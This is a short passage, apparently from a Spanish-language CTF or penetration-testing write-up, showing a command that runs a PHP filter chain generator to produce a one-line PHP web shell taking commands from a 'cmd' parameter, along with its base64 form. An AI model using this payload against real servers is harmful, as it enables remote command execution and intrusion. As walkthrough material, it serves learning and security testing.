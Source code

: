 Vamos a tratar de hacer algo mejor 

```bash
❯ python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
[+] The following gadget chain will generate the following code : <?php system($_GET["cmd"]); ?> (base64 value: PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+)
```